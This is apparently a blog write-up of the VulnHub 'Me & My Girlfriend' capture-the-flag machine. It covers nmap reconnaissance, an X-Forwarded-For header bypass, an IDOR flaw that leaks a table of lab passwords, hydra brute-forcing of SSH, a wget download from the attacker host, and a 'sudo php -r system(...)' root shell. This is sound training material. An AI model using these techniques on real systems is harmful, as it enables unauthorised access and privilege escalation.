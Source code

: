 ```yaml
---
title: "Me & My Girlfriend"
date: 2025-04-30
draft: false
summary: "Writeup for 'Me & My Girlfriend' CTF challenge on VulnHub."
tags: ["linux", "idor", "sudo"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/meandmygf/cover.webp"
  caption: "Me & My Girlfriend VulnHub Challenge"
  alt: "Me & My Girlfriend cover"
platform: "VulnHub"
---
```


This VM tells us that there are a couple of lovers namely Alice and Bob, where the couple was originally very romantic, but since Alice worked at a private company, "*Ceban Corp*", something has changed from Alice's attitude towards Bob like something is "hidden", And Bob asks for our help to get what Alice is hiding and get full access to the company!
<!--more-->
To download **Me and my girlfriend**, click on the link given below:
- https://www.vulnhub.com/entry/me-and-my-girlfriend-1,409/

## Reconnaissance

To identify the target, I performed an network scan using **nmap**:

```bash
nmap -sn 192.168.1.0/24
```

After finding the target IP, I perform an **nmap** aggressive scan to find open ports, services and information about those services.

```shell
nmap -A -p- TARGET --min-rate 10000 -oN nmap.out
```

| **Port** | **Service** |
| -------- | ----------- |
| 22       | ssh         |
| 80       | http        |

![](https://cdn.ziomsec.com/meandmygf/1.webp)

## Initial Foothold

### Enumeration

Since port 80 was running, I used **curl** to fetch information about the page and also accessed it on the browser.

```shell
curl http://TARGET
```

![](https://cdn.ziomsec.com/meandmygf/2.webp)

![](https://cdn.ziomsec.com/meandmygf/3.webp)

The site had an *HTML comment* that gave me a hint on how it could be accessed. I had to use the *X-Forwarded-For* header and use the localhost IP, i.e., 127.0.0.1, to get the intended result. This is because:
- '*Sorry This Site Can Only Be Accessed Local*' - it could only be accessed through localhost, i.e., 127.0.0.1.
- The commented part gave me a hint that this had something to do with the *X-Forwarded-For* header.

Hence, I started Burp Suite and configured it as my proxy using **[FoxyProxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search)**.

Then I turned on my **Burp** Proxy to intercept the request and tried accessing the website. I configured **Burp** to add the following header in all the requests made to the target.

```http
X-Forwarded-For: 127.0.0.1
```

1. I went to **Proxy** and clicked on **Proxy settings**; then searched for **match and replace**.
2. I checked the *Only apply to in-scope items* and clicked on **Add**. Then, I added the header in the following manner:

![](https://cdn.ziomsec.com/meandmygf/5.webp)

3. I then added the target URL to scope by selecting it from the `HTTP history` tab and right clicking on it.

![](https://cdn.ziomsec.com/meandmygf/6.webp)

I clicked on *Register* and registered myself with the following credentials:
- username: `zbot` 
- password: `pass123`

![](https://cdn.ziomsec.com/meandmygf/7.webp)

I then logged in using these credentials.

![](https://cdn.ziomsec.com/meandmygf/8.webp)

The **Profile** page had an option to change my password. This page contained 3 fields: Name, Username and Password. Since, they were filled automatically, I could inspect it further to see if it was possible to find information for other users.

![](https://cdn.ziomsec.com/meandmygf/9.webp)

I turned on my **Burp** Proxy and refreshed this page to intercept the request.

![](https://cdn.ziomsec.com/meandmygf/10.webp)

I sent the request to **Repeater** for inspection.

![](https://cdn.ziomsec.com/meandmygf/11.webp)

The response that I received displayed the password in plaintext.

![](https://cdn.ziomsec.com/meandmygf/12.webp)

Also, upon inspecting the URL, I found that it fetched my details based on an ID.

![](https://cdn.ziomsec.com/meandmygf/13.webp)

So, if I changed the *`user_id`* parameter, I could perform **IDOR**.

> **IDOR**  (Insecure Direct Object Reference) is an access control vulnerability. It happens when an application doesn't properly check if a user is allowed to access some data and serves data on the basis of a small part of the request (like ID value).

### Exploiting IDOR

I changed the ID value and got multiple user credentials.

![](https://cdn.ziomsec.com/meandmygf/14.webp)

| id  | username       | password    |
| --- | -------------- | ----------- |
| 1   | eweuhtandingan | skuyatuh    |
| 2   | aingmaung      | qwerty!!!   |
| 3   | sundatea       | indONEsia   |
| 4   | sedihaingmah   | cedihhihihi |
| 5   | alice          | 4lic3       |
Since the target had *SSH* service enabled, I used hydra to test these usernames and passwords against it.

```bash
# saved usernames and passwords in a seperate file.
hydra -L USERLIST -P PASSLIST ssh://TARGET
```

![](https://cdn.ziomsec.com/meandmygf/15.webp)

**hydra** revealed a valid pair of credentials - so I used it to access the box using **ssh**.

```shell
ssh alice@TARGET
# enter password
```

![](https://cdn.ziomsec.com/meandmygf/16.webp)

I found the user flag inside the `.my_secret` folder.

![](https://cdn.ziomsec.com/meandmygf/17.webp)

```shell
cd .my_secret/
cat flag1.txt
```

![](https://cdn.ziomsec.com/meandmygf/18.webp)

I also found another note :(

```shell
cat my_notes.txt
```

![](https://cdn.ziomsec.com/meandmygf/19.webp)

## Privilege Escalation

To enumerate privesc vectors, I downloaded **Linux Smart Enumeration** script on my PC and transferred it to the target.
- https://github.com/diego-treitos/linux-smart-enumeration

```shell
$ cd /tmp
$ wget http://KALI:PORT/lse.sh
$ chmod +x lse.sh
```

![](https://cdn.ziomsec.com/meandmygf/20.webp)

I then executed the script.

```shell
./lse.sh
```

![](https://cdn.ziomsec.com/meandmygf/21.webp)

![](https://cdn.ziomsec.com/meandmygf/22.webp)

It discovered a **sudo** misconfiguration. I was allow to run **php** without a password. I verified the same using `sudo -l`

![](https://cdn.ziomsec.com/meandmygf/23.webp)

I used **GTFOBins** to understand how I could exploit this misconfiguration.
- https://gtfobins.github.io/

![](https://cdn.ziomsec.com/meandmygf/24.webp)

I used the following payload to exploit the misconfiguration and got root access.

```shell
$ CMD="/bin/bash" #variable storing shell type.
$ sudo php -r "system('$CMD');" #execute contents stored in the variable
```

![](https://cdn.ziomsec.com/meandmygf/25.webp)

Finally, I captured the final flag from the root directory.

![](https://cdn.ziomsec.com/meandmygf/26.webp)

## Closure

I successfully pwned the system and captured the flags. Here's how it went:
- After gaining access to the site, I discovered an **IDOR** vulnerability and used it to retrieve usernames and passwords.
- I used those credentials to **SSH** into the target system.
- I found the first flag in a hidden folder called *.my_secret*.
- I discovered that the user could execute **PHP** as sudo without a password.
- I used **GTFOBins** to find a way to exploit this and gain root access.
- Finally, I captured the second flag in the *root* directory.

That's it from my side. Until next time! :)

---
